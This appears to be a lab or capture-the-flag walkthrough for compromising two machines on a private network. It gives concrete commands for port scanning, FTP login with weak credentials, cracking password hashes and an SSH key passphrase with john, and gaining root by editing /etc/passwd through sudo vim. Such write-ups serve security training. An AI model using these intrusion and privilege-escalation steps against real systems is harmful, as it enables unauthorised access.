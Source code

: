 # 2 Boxes 4 Shells
Conduct an nmap scan of 10.8.14.0/24 to find the two boxes ip address\
Box 1 = 10.8.14.13\
Box 2 = 10.8.14.71

## Box 1 User
Conduct an nmap scan of box 1 to see open ports\
Box 1\
21/ftp\
22/ssh\
8000/http

Visit the webpage and notice the different directories open\
"Liam Only!" contains a pdf file that has a vulnerability report\
"Team Effort" contains a list of usernames associated with the team

The vulnerability report shows that ftp login password is easily crackable or is the same as the username\
`ftp 10.8.14.13`\
`Username: lsmith`\
`Password: lsmith`

Move all of the keys from box 1 to your user box\
Change permissions to 600 for all files\
`chmod lsmith* 600`\
`chmod njones* 600`

SSH into box 1:\
`ssh lsmith@10.8.14.13 -i lsmith_rsa`

List directory and cat the token file for box 1 user token

## Box 1 Root
List the root directory and notice that `/root/` is owned by lsmith\
Cd into /root/\
`cd /root/`\
There are two files, the token and a python script\
The token is owned by root so you cannot cat it, but login.py looks interesting\
Cat login.py and see that there are hardcoded username and passwords\
copy and paste those hashes into txt files on the user box\
unzip rockyou.txt\
`sudo gzip -d /usr/share/wordlists/rockyou.txt.gz`\
run `sudo john un.txt/pw.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` (only one file at a time)\
the hashes will be cracked relatively quick\
go back to the bisonator box and run `su root`\
Password: bison2674\
cat the token file

## Box 2 User
When scanning box 2 from the user box, notice that 22/ssh is filtered\
Run `nc -nvz 10.8.14.71 22` and notice that it's open\
On the bisonator box, cd into `~/ftp/`\
Use njones' key to ssh into .71\
It requires a passphrase\
So use ssh2john.py to crack the passphrase\
`sudo find / -type f -iname 'ssh2john.py'`\
`python /path/to/ssh2john.py njones_rsa > njones.hash`\
`john njones.hash --wordlist=/usr/share/wordlists/rockyou.txt`\
Passphrase: skittles

SSH into box 2
`ssh njones@10.8.14.71 -i njones_rsa`\
Enter passphrase\
Cat token

## Box 2 Root
Do `sudo -l` to see what the user has sudo rights too\
Vim is the only thing listed\
`sudo vim /etc/passwd`\
(password is skittles)\
Change njones to look like this:\
njones:x:0:0:root and leave the rest of the line the same\
su to njones and you should have root privs
